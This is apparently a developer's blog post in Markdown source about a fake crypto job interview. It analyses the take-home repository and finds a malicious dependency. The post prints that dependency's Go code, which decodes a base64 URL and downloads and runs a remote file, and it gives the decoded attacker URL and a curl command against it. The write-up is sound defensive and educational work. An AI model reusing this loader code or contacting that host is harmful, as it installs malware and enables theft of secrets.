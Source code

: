 ```yaml
---
title: "Having Fun With a Scamming Crypto Job"
date: 2025-04-09T00:17:16+07:00
draft: false
toc: true
tags:
- crypto
- scam
- fake-job
categories:
---
```


I'm going to cover what happened and the technical details of a crypto job scam
that I've avoided. Let's hope that it can be both entertaining and informative.

It's my second time encoutering this kind of scam. In the first time, I just
ignored it as the sign is too obvious: a non-fitting job (frontend heavy job for
a backend guy) where the recruiter is "impressed with my technical skills" and
think that I'm "an exellent fit". For this second time, I got fooled at first as
it is too good, and after I realized it's too good to be true and likely a scam,
instead of stopping early, I just got... more patient and curious about what's
behind. 

## The Conversation

It started with a message from a seemingly real recruiter from a prestige
company. I overjumped with joy as it's been a long time since the last ocassion
I'm reached out by a recruiter.

![](../images/crypto-job-scam-1.png)

The recruiter asked about a specific work in my resume. I felt that it's weird,
but tried to answer it at the best of my ability.

![](../images/crypto-job-scam-2.png)

However, things started getting weirder when I wanted more specific information
about the role and the team, but got a generic response. "One-hour technical
assessment" is rare in this employer's market as well. I decided to dig the
recruiter's LinkedIn profile and found that he/she isn't connected to any
employee in the company. The company itself has a career portal that wasn't
showing any available role that is fully remote nor for Vietnamese candidates.

![](../images/crypto-job-scam-3.png)

By now, I realized that it's highly a scam, but got curious about what's next,
so I stayed.

![](../images/crypto-job-scam-4.png)

I guessed that it'll involve downloading and running code, and I was right.

![](../images/crypto-job-scam-5.png)

## Code Analysis

Just poking around the files shouldn't cause any problem, but if you're
paranoid, you can use a lightweight sandbox like `firejail` to limit filesytem
access and network access.

```shell
firejail --net=none --private bash
```

`unzip`ing the compressed file should give us a regular code repository
[^code-main]. The dependencies also look normal at the first glance:

```
module unirouter

go 1.24.1

toolchain go1.24.2

require (
        github.com/TedCollin/uniroute/v2 v2.1.3
        github.com/ethereum/go-ethereum v1.14.11
        github.com/joho/godotenv v1.5.1
)

...
```

I double checked the primary dependencies, and everything is normal except for
`github.com/TedCollin/uniroute/v2` [^code-downloader]:

![](../images/crypto-job-scam-6.png)

The code in `uniroute.go` did confirm that there is something fishy going on:

```go
package uniroute

import "encoding/base64"

var (
        checksum = "aHR0cHM6Ly9kb3dubG9hZC5kYXRhdGFibGV0ZW1wbGF0ZS54eXovYWNjb3VudC9yZWdpc3Rlci9pZD04MTE4NTU1OTAyMDYxODk5JnNlY3JldD1Rd0xvT1pTRGFrRmg="
)

func GetUniRoute() {
        chsum, _ := base64.StdEncoding.DecodeString(checksum)
        fset(string(chsum))
}
```

Decoding `checksum` gives us:

```
https://download.datatabletemplate.xyz/account/register/id=8118555902061899&secret=QwLoOZSDakFh
```

There are different implementations of `fset` for each platform (Linux, Windows,
and MacOS), but the gist of it is to download the link above as a binary file
and execute it.

```go
func fset(data_path string) {
	tmpDir := os.TempDir()
	targetPath := filepath.Join(tmpDir, "init")

	// Create the file to write
	file, err := os.Create(targetPath)
	...

	// Perform the GET request
	// Create HTTP request
	req, err := http.NewRequest("GET", data_path, nil)
    ...

	// Set OS-specific header
	req.Header.Set("User-Agent", "lnux")

	// Perform the GET request
	client := &http.Client{}
	resp, err := client.Do(req)
	...

	// Write response to file
	_, err = io.Copy(file, resp.Body)
	...

	cmd := exec.Command("nohup", "bash", targetPath, "&")
	cmd.SysProcAttr = &syscall.SysProcAttr{
		Setsid: true,
	}

	cmd.Stderr = nil
	cmd.Stdin = nil
	cmd.Stdout = nil
	cmd.Start()
}
```

I tried downloading the binary file, but couldn't as there were errors with my
TLS (?).

```shell
curl -H 'User-Agent: lnux' 'https://download.datatabletemplate.xyz/account/register/id=8118555902061899&secret=QwLoOZSDakFh' -o binary
# curl: (35) TLS connect error: error:80000002:system library::No such file or directory
```

I decided not pushing it further. My guess is that the binary is a "wallet
drainer", a mallicious actor that read your sensitive data on the machine and
sent it to the scammer.

## Conclusion

By now, I hope you feel obvious that "if it's too good to be true, then it's
probably is (a scam)". But I can imagine why people fall for this: the
excitement of having a lucrative job offer blinds us from being rational.
Technical-wise, we should check the code we are going to run, including the
dependencies. Non-technical-wise, we should check:

- Nationality required: it's a red flag if the company is not hiring worldwide
  nor people from your country, and there is still a job
- Job's specific details: it's a red flag if the recruiter refuse to elaborate
  on the work and the technical stack and the team

Scamming is common in crypto world [^crypto-job-scams-article] and you can never
be too careful.

**Update**: following a suggestion on Tildes [^tildes-suggestion], I reported
the scam to:

- GitHub: asked them to look at the malware downloading repository
  [^code-downloader].
- Company R: told them that someone impersonated their recruiter.
- Namecheap, the registrar of the domain `datatabletemplate.xyz`: told them
  about what happened.
- Telegram, the platform that the conversation happened: told them about what
  happened.

[^code-main]: https://github.com/thanhnguyen2187/unirouter-compromised
[^code-downloader]: I [backed it
    up](https://github.com/thanhnguyen2187/uniroute-compromised) from the
    [original repository](https://github.com/TedCollin/uniroute/) (likely to be
    taken down after a while). 
[^crypto-job-scams-article]: https://cointelegraph.com/learn/articles/crypto-job-scams
[^tildes-suggestion]: https://tildes.net/~comp/1n9o/having_fun_with_a_scamming_crypto_job#comment-fbl8

